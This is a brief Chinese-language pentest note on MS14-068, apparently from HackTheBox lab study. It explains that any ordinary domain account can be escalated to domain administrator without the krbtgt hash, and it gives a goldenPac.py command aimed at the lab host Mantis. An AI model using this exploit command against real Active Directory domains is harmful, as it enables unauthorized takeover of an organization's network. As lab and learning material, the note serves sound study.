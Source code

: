 # MS14-068

拥有一个普通域账号的情况下提权成域管理员，无需知道krbtgt的Hash，类似黄金票据。

```shell
python3.10 goldenPac.py -dc-ip 10.10.10.52 -target-ip 10.10.10.52  htb.local/james@mantis.htb.local
```

